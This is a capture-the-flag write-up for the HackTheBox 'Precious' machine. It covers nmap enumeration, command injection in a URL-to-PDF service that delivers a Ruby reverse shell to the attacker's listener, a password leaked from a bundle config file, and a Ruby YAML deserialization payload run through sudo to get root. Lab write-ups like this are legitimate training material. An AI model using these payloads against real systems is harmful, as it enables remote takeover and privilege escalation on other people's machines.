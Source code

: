 # Precious

![image](https://github.com/sec-fortress/sec-fortress.github.io/assets/132317714/95ee232f-ce38-42aa-b5e1-60f94804129d)

## Difficulty = Easy
---
Run your nmap scan:

```sh
# Nmap 7.94 scan initiated Sat Aug 12 04:11:57 2023 as: nmap -sVC --min-rate=1000 -T4 --script vuln -oN nmap.txt -v 10.10.11.189
Nmap scan report for 10.10.11.189
Host is up (0.25s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| vulners: 
|   cpe:/a:openbsd:openssh:8.4p1: 
|     	CVE-2021-28041	4.6	https://vulners.com/cve/CVE-2021-28041
|     	CVE-2021-41617	4.4	https://vulners.com/cve/CVE-2021-41617
|     	CVE-2020-14145	4.3	https://vulners.com/cve/CVE-2020-14145
|     	CVE-2016-20012	4.3	https://vulners.com/cve/CVE-2016-20012
|_    	CVE-2021-36368	2.6	https://vulners.com/cve/CVE-2021-36368
80/tcp open  http    nginx 1.18.0
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-server-header: nginx/1.18.0
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Aug 12 04:23:23 2023 -- 1 IP address (1 host up) scanned in 686.08 seconds
```

Nothing seems to be interesting in our nmap scan, so let navigate to port 80/http :

![](https://i.imgur.com/xheYSoH.png)

Looks like we have a web page that convert websites to PDF's, i wasn't sure enough, so i used wappalyzer to check technologies :

![](https://i.imgur.com/fepM8Ky.png)

First of all enumerating `phushion passenger 6.0.15 exploit`, Nothing seems to be interesting than a privilege escalation vector which is after we have foothold, we don't have that yet :

![](https://i.imgur.com/TVBdAQD.png)

Enumerating `nginx 1.18.0 exploit` doesn't to have any connection to what i want, i need something like command injection exploit :

![](https://i.imgur.com/PwbZGVG.png)

---

I then decided to load a URL on the site again, for this you have to start a python http server:

- Touch a txt file on your terminal `touch bankai.txt`
- then start up the python web server with `python3 -m http.server 80`

![](https://i.imgur.com/drwrQTn.png)

Now click submit

- I noticed the site is downloading a PDF once we submit the URL

![](https://i.imgur.com/J7z1gEe.png)

- so i opened the PDF and nothing was there, then decided to use `exiftool` to check any meta-data and i got a version of what is generating this PDF for us :

![](https://i.imgur.com/MWH53Hj.png)

Nice😘

Now let enumerate this version 

![](https://i.imgur.com/EFfPt9U.png)

Looks like we are getting somewhere, after scraping around, i found a way to get shell with this syntax:

*Instructions :*

- Start a python http server with `python3 -m http.server 80`
- start your netcat listener `nc -lvnp 4444`
- Then use this payload on you command line :

```sh
curl 'TARGET_ADDRESS' -X POST -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,/;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Content-Type: application/x-www-form-urlencoded' -H 'Origin: TARGET_ADDRESS' -H 'Connection: keep-alive' -H 'Referer: TARGET_ADDRESS' -H 'Upgrade-Insecure-Requests: 1' --data-raw 'url=http%3A%2F%2FLOCAL-ADDRESS%3ALOCAL-PORT%2F%3Fname%3D%2520%60+ruby+-rsocket+-e%27spawn%28%22sh%22%2C%5B%3Ain%2C%3Aout%2C%3Aerr%5D%3D%3ETCPSocket.new%28%22LOCAL-ADDRESS%22%2CLOCAL-PORT%29%29%27%60'
```

- Make sure to replace `TARGET_ADDRESS`, `LOCAL_ADDRESS` and `LOCAL_PORT` with their respective info, fire it up and things should work :

![](https://i.imgur.com/Nv0JhuD.png)

> POV : it looks like we still got reverse shell with ruby cos' the `--data-raw` header makes a request to execute this ruby command as a reverse shell -->
> `ruby -rsocket -e 'spawn("sh",[:in,:out,:err]=>TCPSocket.new("10.10.14.12",4444))'


### Privilege Escalation

- Navigating to the home directory, we have an unusual file called `.bundle`

![](https://i.imgur.com/Jtqq5dq.png)

- Inside .bundle is a config file, concatenating the config file gives us Henry password

![](https://i.imgur.com/nvy95vG.png)

- Successfully switched user to henry, running `sudo -l` tells us we can run `/opt/update_dependencies.rb` as root

![](https://i.imgur.com/ifmdF8Z.png)

- Running the files seems to give me errors, so i changed directory to /opt
- We can see that we have another directory here which has a `dependencies.yml` file

![](https://i.imgur.com/sbkhfCp.png)

- Making my research i saw we can update privileges by editing this file
- We also don't have write access to this `dependencies.yml` file which is a problem
- One more problem, if your shell gives you problem, login via SSH with Henry and the password we got.

![](https://i.imgur.com/jpoQonU.png)

- After much enumeration, i found out i could create a `dependencies.yml` file in /tmp too and it will be read, So;
- change directory to /tmp --> `cd /tmp`
- then do --> `nano dependencies.yml`

- Now paste this code directly and do `ctrl+x` to save

```YML
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: /bin/bash
         method_id: :resolve
```

- Now run the file with `sudo /usr/bin/ruby /opt/update_dependencies.rb` 

![](https://i.imgur.com/65JDjk3.png)

Booyah 😅, and we are root

<button onclick="window.location.href='https://sec-fortress.github.io';">Back To Home螥</button>

